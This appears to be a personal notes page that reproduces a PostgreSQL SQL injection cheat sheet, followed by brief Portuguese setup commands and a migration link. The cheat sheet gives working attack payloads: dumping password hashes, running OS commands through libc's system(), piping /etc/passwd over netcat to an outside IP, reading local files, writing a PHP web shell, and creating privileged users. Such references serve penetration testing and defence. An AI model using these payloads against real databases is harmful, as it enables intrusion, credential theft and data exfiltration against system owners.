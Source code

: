 
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

<table border="1">
<tbody>
<tr>
<td>Version</td>
<td>SELECT version()</td>
</tr>
<tr>
<td>Comments</td>
<td>SELECT 1; –comment<br>
SELECT /*comment*/1;</td>
</tr>
<tr>
<td>Current User</td>
<td>SELECT user;<br>
SELECT current_user;<br>
SELECT session_user;<br>
SELECT usename FROM pg_user;<br>
SELECT getpgusername();</td>
</tr>
<tr>
<td>List Users</td>
<td>SELECT usename FROM pg_user</td>
</tr>
<tr>
<td>List Password Hashes</td>
<td>SELECT usename, passwd FROM pg_shadow — priv</td>
</tr>
<tr>
<td>Password Cracker</td>
<td><a href="http://pentestmonkey.net/blog/cracking-postgres-hashes/">MDCrack</a> can crack PostgreSQL’s MD5-based passwords.</td>
</tr>
<tr>
<td>List Privileges</td>
<td>SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user</td>
</tr>
<tr>
<td>List DBA Accounts</td>
<td>SELECT usename FROM pg_user WHERE usesuper IS TRUE</td>
</tr>
<tr>
<td>Current Database</td>
<td>SELECT current_database()</td>
</tr>
<tr>
<td>List Databases</td>
<td>SELECT datname FROM pg_database</td>
</tr>
<tr>
<td>List Columns</td>
<td>SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)</td>
</tr>
<tr>
<td>List Tables</td>
<td>SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)</td>
</tr>
<tr>
<td>Find Tables From Column Name</td>
<td>If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum&gt;0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;</td>
</tr>
<tr>
<td>Select Nth Row</td>
<td>SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0<br>
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;</td>
</tr>
<tr>
<td>Select Nth Char</td>
<td>SELECT substr(‘abcd’, 3, 1); — returns c</td>
</tr>
<tr>
<td>Bitwise AND</td>
<td>SELECT 6 &amp; 2; — returns 2<br>
SELECT 6 &amp; 1; –returns 0</td>
</tr>
<tr>
<td>ASCII Value -&gt; Char</td>
<td>SELECT chr(65);</td>
</tr>
<tr>
<td>Char -&gt; ASCII Value</td>
<td>SELECT ascii(‘A’);</td>
</tr>
<tr>
<td>Casting</td>
<td>SELECT CAST(1 as varchar);<br>
SELECT CAST(’1′ as int);</td>
</tr>
<tr>
<td>String Concatenation</td>
<td>SELECT ‘A’ || ‘B’; — returnsAB</td>
</tr>
<tr>
<td>If Statement</td>
<td>IF statements only seem valid inside functions, so aren’t much use for SQL injection.&nbsp; See CASE statement instead.</td>
</tr>
<tr>
<td>Case Statement</td>
<td>SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A</td>
</tr>
<tr>
<td>Avoiding Quotes</td>
<td>SELECT CHR(65)||CHR(66); — returns AB</td>
</tr>
<tr>
<td>Time Delay</td>
<td>SELECT pg_sleep(10); — postgres 8.2+ only<br>
CREATE OR REPLACE FUNCTION sleep(int) RETURNS int AS ‘/lib/libc.so.6′, ‘sleep’ language ‘C’ STRICT; SELECT sleep(10); –priv, create your own sleep function.&nbsp; Taken from <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">here</a> .</td>
</tr>
<tr>
<td>Make DNS Requests</td>
<td>Generally not possible in postgres.&nbsp; However if <a href="http://www.leidecker.info/pgshell/Having_Fun_With_PostgreSQL.html">contrib/dblink</a>is installed (it isn’t by default) it can be used to resolve hostnames (assuming you have DBA rights):<p></p>
<pre>SELECT * FROM dblink('host=put.your.hostname.here user=someuser  dbname=somedb', 'SELECT version()') RETURNS (result TEXT);</pre>
<p>Alternatively, if you have DBA rights you could run an OS-level command (see below) to resolve hostnames, e.g. “ping pentestmonkey.net”.</p></td>
</tr>
<tr>
<td>Command Execution</td>
<td>CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS ‘/lib/libc.so.6′, ‘system’ LANGUAGE ‘C’ STRICT; — privSELECT system(‘cat /etc/passwd | nc 10.0.0.1 8080′); — priv, commands run as postgres/pgsql OS-level user</td>
</tr>
<tr>
<td>Local File Access</td>
<td>CREATE TABLE mydata(t text);<br>
COPY mydata FROM ‘/etc/passwd’; — priv, can read files which are readable by postgres OS-level user<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 1; — get data back one row at a time<br>
…’ UNION ALL SELECT t FROM mydata LIMIT 1 OFFSET 2; — get data back one row at a time …<br>
DROP TABLE mytest mytest;Write to a file:<p></p>
<p>CREATE TABLE mytable (mycol text);<br>
INSERT INTO mytable(mycol) VALUES (‘&lt;? pasthru($_GET[cmd]); ?&gt;’);<br>
COPY mytable (mycol) TO ‘/tmp/test.php’; –priv, write files as postgres OS-level user.&nbsp; Generally you won’t be able to write to the web root, but it’s always work a try.<br>
– priv user can also read/write files by <a href="http://www.portcullis.co.uk/uplds/whitepapers/Having_Fun_With_PostgreSQL.pdf">mapping libc functions</a></p></td>
</tr>
<tr>
<td>Hostname, IP Address</td>
<td>SELECT inet_server_addr(); — returns db server IP address (or null if using local connection)<br>
SELECT inet_server_port(); — returns db server IP address (or null if using local connection)</td>
</tr>
<tr>
<td>Create Users</td>
<td>CREATE USER test1 PASSWORD ‘pass1′; — priv<br>
CREATE USER test1 PASSWORD ‘pass1′ CREATEUSER; — priv, grant some privs at the same time</td>
</tr>
<tr>
<td>Drop Users</td>
<td>DROP USER test1; — priv</td>
</tr>
<tr>
<td>Make User DBA</td>
<td>ALTER USER test1 CREATEUSER CREATEDB; — priv</td>
</tr>
<tr>
<td>&nbsp;Location of DB files</td>
<td>SELECT current_setting(‘data_directory’); — priv<br>
SELECT current_setting(‘hba_file’); — priv</td>
</tr>
<tr>
<td>Default/System Databases</td>
<td>template0<br>
template1</td>
</tr>
</tbody>
</table>

<code>
<pre>

# Instalação do Zero (windows)
pg_ctl -D /pasta/de/dados initdb

# Iniciar o banco 
pg_ctl -D /pasta/de/dados -l logfile start

</pre>
</code>

# Mais

* https://www.enterprisedb.com/blog/the-complete-oracle-to-postgresql-migration-guide-tutorial-move-convert-database-oracle-alternative